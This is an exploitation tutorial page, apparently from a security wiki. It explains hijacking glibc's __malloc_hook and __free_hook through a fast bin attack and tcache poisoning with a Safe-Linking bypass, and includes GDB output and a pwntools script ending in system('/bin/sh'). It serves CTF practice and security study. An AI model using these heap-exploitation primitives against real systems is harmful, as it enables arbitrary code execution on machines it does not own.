 # WWW2Exec - __malloc_hook & __free_hook

{{#include ../../banners/hacktricks-training.md}}

## **Malloc Hook**

As you can [Official GNU site](https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html), the variable **`__malloc_hook`** is a pointer pointing to the **address of a function that will be called** whenever `malloc()` is called **stored in the data section of the libc library**. Therefore, if this address is overwritten with a **One Gadget** for example and `malloc` is called, the **One Gadget will be called**.

To call malloc it's possible to wait for the program to call it or by **calling `printf("%10000$c")`** which allocates too bytes many making `libc` calling malloc to allocate them in the heap.

More info about One Gadget in:



{{#ref}}
../rop-return-oriented-programing/ret2lib/one-gadget.md
{{#endref}}

> [!WARNING]
> Note that hooks are **disabled for GLIBC >= 2.34**. There are other techniques that can be used on modern GLIBC versions. See: [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md).

## Free Hook

This was abused in one of the example from the page abusing a fast bin attack after having abused an unsorted bin attack:



{{#ref}}
../libc-heap/unsorted-bin-attack.md
{{#endref}}

It's posisble to find the address of `__free_hook` if the binary has symbols with the following command:

```bash
gef➤  p &__free_hook
```

[In the post](https://guyinatuxedo.github.io/41-house_of_force/bkp16_cookbook/index.html) you can find a step by step guide on how to locate the address of the free hook without symbols. As summary, in the free function:

<pre class="language-armasm"><code class="lang-armasm">gef➤  x/20i free
0xf75dedc0 <free>: push   ebx
0xf75dedc1 <free+1>: call   0xf768f625
0xf75dedc6 <free+6>: add    ebx,0x14323a
0xf75dedcc <free+12>:  sub    esp,0x8
0xf75dedcf <free+15>:  mov    eax,DWORD PTR [ebx-0x98]
0xf75dedd5 <free+21>:  mov    ecx,DWORD PTR [esp+0x10]
<strong>0xf75dedd9 <free+25>:  mov    eax,DWORD PTR [eax]--- BREAK HERE
</strong>0xf75deddb <free+27>:  test   eax,eax ;<
0xf75deddd <free+29>:  jne    0xf75dee50 <free+144>
</code></pre>

In the mentioned break in the previous code in `$eax` will be located the address of the free hook.

Now a **fast bin attack** is performed:

- First of all it's discovered that it's possible to work with fast **chunks of size 200** in the **`__free_hook`** location:
- <pre class="language-c"><code class="lang-c">gef➤  p &__free_hook
  $1 = (void (**)(void *, const void *)) 0x7ff1e9e607a8 <__free_hook>
  gef➤  x/60gx 0x7ff1e9e607a8 - 0x59
  <strong>0x7ff1e9e6074f: 0x0000000000000000      0x0000000000000200
  </strong>0x7ff1e9e6075f: 0x0000000000000000      0x0000000000000000
  0x7ff1e9e6076f <list_all_lock+15>:      0x0000000000000000      0x0000000000000000
  0x7ff1e9e6077f <_IO_stdfile_2_lock+15>: 0x0000000000000000      0x0000000000000000
  </code></pre>
  - If we manage to get a fast chunk of size 0x200 in this location, it'll be possible to overwrite a function pointer that will be executed
- For this, a new chunk of size `0xfc` is created and the merged function is called with that pointer twice, this way we obtain a pointer to a freed chunk of size `0xfc*2 = 0x1f8` in the fast bin.
- Then, the edit function is called in this chunk to modify the **`fd`** address of this fast bin to point to the previous **`__free_hook`** function.
- Then, a chunk with size `0x1f8` is created to retrieve from the fast bin the previous useless chunk so another chunk of size `0x1f8` is created to get a fast bin chunk in the **`__free_hook`** which is overwritten with the address of **`system`** function.
- And finally a chunk containing the string `/bin/sh\x00` is freed calling the delete function, triggering the **`__free_hook`** function which points to system with `/bin/sh\x00` as parameter.

---

## Tcache poisoning & Safe-Linking (glibc 2.32 – 2.33)

glibc 2.32 introduced **Safe-Linking** – an integrity-check that protects the *single*-linked lists used by **tcache** and fast-bins. Instead of storing a raw forward pointer (`fd`), ptmalloc now stores it *obfuscated* with the following macro:

```c
#define PROTECT_PTR(pos, ptr) (((size_t)(pos) >> 12) ^ (size_t)(ptr))
#define REVEAL_PTR(ptr)       PROTECT_PTR(&ptr, ptr)
```

Consequences for exploitation:

1. A **heap leak** is mandatory – the attacker must know the runtime value of `chunk_addr >> 12` to craft a valid obfuscated pointer.
2. Only the *full* 8-byte pointer can be forged; single-byte partial overwrites will not pass the check.

A minimal tcache-poisoning primitive that overwrites `__free_hook` on glibc 2.32/2.33 therefore looks like:

```py
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p    = process("./vuln")

# 1. Leak a heap pointer (e.g. via UAF or show-after-free)
heap_leak   = u64(p.recvuntil(b"\n")[:6].ljust(8, b"\x00"))
heap_base   = heap_leak & ~0xfff
fd_key      = heap_base >> 12  # value used by PROTECT_PTR
log.success(f"heap @ {hex(heap_base)}")

# 2. Prepare two same-size chunks and double-free one of them
a = malloc(0x48)
b = malloc(0x48)
free(a)
free(b)
free(a)           # tcache double-free ⇒ poisoning primitive

# 3. Forge obfuscated fd that points to __free_hook
free_hook = libc.sym['__free_hook']
poison    = free_hook ^ fd_key
edit(a, p64(poison))  # overwrite fd of tcache entry

# 4. Two mallocs: the second one returns a pointer to __free_hook
malloc(0x48)           # returns chunk a
c = malloc(0x48)       # returns chunk @ __free_hook
edit(c, p64(libc.sym['system']))

# 5. Trigger
bin_sh = malloc(0x48)
edit(bin_sh, b"/bin/sh\x00")
free(bin_sh)
```

The snippet above was adapted from recent CTF challenges such as *UIUCTF 2024 – «Rusty Pointers»* and *openECSC 2023 – «Babyheap G»*, both of which relied on Safe-Linking bypasses to overwrite `__free_hook`. 

---

## What changed in glibc ≥ 2.34?

Starting with **glibc 2.34 (August 2021)** the allocation hooks `__malloc_hook`, `__realloc_hook`, `__memalign_hook` and `__free_hook` were **removed from the public API and are no longer invoked by the allocator**. Compatibility symbols are still exported for legacy binaries, but overwriting them no longer influences the control-flow of `malloc()` or `free()`. 

Practical implication: on modern distributions (Ubuntu 22.04+, Fedora 35+, Debian 12, etc.) you must pivot to *other* hijack primitives (IO-FILE, `__run_exit_handlers`, vtable spraying, etc.) because hook overwrites will silently fail.

If you still need the old behaviour for debugging, glibc ships `libc_malloc_debug.so` which can be pre-loaded to re-enable the legacy hooks – but the library is **not meant for production and may disappear in future releases**.

---

## References

- [https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook](https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook)
- [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md).
- Safe-Linking – Eliminating a 20 year-old malloc() exploit primitive (Check Point Research, 2020)
- glibc 2.34 release notes – removal of malloc hooks

{{#include ../../banners/hacktricks-training.md}}
